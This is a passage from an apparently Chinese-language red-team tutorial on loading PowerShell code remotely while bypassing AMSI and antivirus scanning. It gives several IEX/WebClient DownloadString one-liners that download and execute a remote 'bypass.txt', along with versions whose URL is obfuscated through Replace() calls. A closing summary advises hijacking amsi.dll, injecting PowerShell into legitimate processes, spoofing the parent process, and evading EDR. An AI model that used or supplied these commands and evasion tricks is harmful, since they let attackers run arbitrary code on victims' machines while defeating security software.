 


# 0x04.远程加载方式（二）



```
IEX ((new-object net.webclient).downloadstring('http://0.0.0.0:8000/bypass.txt'.))
```

## 同样的我们可以通过Replace函数去替换字符串来混淆IP地址

```
IEX ((new-object net.webclient).downloadstring("http://10.@!#$%^&*()21@!#$%^&*()2.202.188@@@@@:8000/byp**************ass.tx**************t".Replace('@@@@@','').Replace('@!#$%^&*()','').Replace('**************',''))
```
![image](https://user-images.githubusercontent.com/89376703/155738711-0f72d9db-57de-4d25-aabb-405d9c2b4ee6.png)



# 0x05.远程加载方式（三）

```
IEX([Net.Webclient]::new().DownloadString("http://0.0.0.0:8000/bypass.txt".))
```

## 这个方法和方式二类似，本质上还是用WebClient去连接服务端的方式去读取web端的样本内容

## 混淆后的样本为

```
IEX([Net.Webclient]::new().DownloadString("h%%%t%%%tp:%%%//10.212.2@@@@@02.188@@@@@:80@@@@@00/bypas%%%s.tx%%%t".Replace('@@@@@','').Replace('%%%','')))
```

![image](https://user-images.githubusercontent.com/89376703/155734999-eda34e45-42c7-4e2b-a526-c4eae7cb183f.png)

# 绕过思路总结
## 1.破坏反病毒的扫描进程或者劫持amsi.dll都可以有效地去绕过AMSI，其次，amsi.dll可以用WinDbg等软件进行调试，可用于逆向工程、反汇编和动态分析。在调试中，WinDbg 将附加到运行 PowerShell 的进程，以分析 AMSI。
## 2.使用IEX和webclient远程加载powershell进程，虽然方式比较简单，但是进程容易被杀死，cs执行高危操作会马上掉线。当进程被挂钩的同时，想绕过更多的防病毒软件和EDR会变得困难。因此实战中红队人员通常会把PowerShell代码注入到合法的进程中，或者利用父进程欺骗去进一步完成高权限的提升
## 3.0x02的加载方式显然比较稳定，比起webclient，WebRequest相对特征不那么明显，因此每种加载方式都有优劣之处
## 4.当powershell进程中出现某个字符串被禁用时，多使用几个Replace函数去替换去混淆，在一定程度上可以做到动态绕过的效果
